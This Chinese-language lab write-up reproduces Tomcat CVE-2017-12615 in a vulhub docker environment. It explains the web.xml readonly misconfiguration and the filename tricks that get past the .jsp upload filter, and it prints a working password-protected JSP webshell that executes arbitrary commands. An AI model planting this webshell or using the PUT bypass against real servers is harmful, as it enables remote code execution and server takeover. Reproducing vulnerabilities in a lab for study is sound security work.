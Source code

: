 # 漏洞复现——Tomcat任意文件写入CVE-2017-12615

# 一、漏洞原理

1. 由于配置不当，将配置文件conf/web.xml中的readonly设置为了false（默认为true），导致用户可以使用PUT方法上传任意文件，并可执行任意代码，但限制了jsp后缀文件的上传，但可以利用文件系统特性进行绕过。

2. 在windows服务器下，可使用空格、NTFS流（文件名后加::$DATA）、“/”绕过。linux下也可通过“/”来绕过限制。

3. 影响版本：7.0.0-7.0.81

# 二、漏洞复现

1. vulhub/tomcat/CVE-2017-12615目录下docker启动环境

   ``` shell
   sudo docker-compose up -d
   ```

2. 启动后访问http://靶机IP:8080，使用BurpSuite抓包，发现是GET请求

3. 修改数据包为PUT请求，测试是否可以写入文件，尝试写入一个test.txt文件，查看响应数据包

   ![2.png](img/TomcatUpload/Image2.png)

4. 返回状态码201，访问http://靶机IP:8080/test.txt，页面显示内容为test，创建test.txt文件并写入内容成功

   ![3.png](img/TomcatUpload/Image3.png)

5. 尝试使用PUT方法写入一个jsp马，代码如下

   ``` java
   <%
       if("thisispasswd".equals(request.getParameter("pwd"))){
           java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
           int a = -1;          
           byte[] b = new byte[1024];          
           out.print("<pre>");          
           while((a=in.read(b))!=-1){
               out.println(new String(b));          
           }
           out.print("</pre>");
       }
   %>
   ```

6. 使用“/”进行绕过，响应状态码201，写入文件成功

   ![4.png](img/TomcatUpload/Image4.png)

7. 访问jsp马文件，成功执行命令

   ![5.png](img/TomcatUpload/Image5.png)
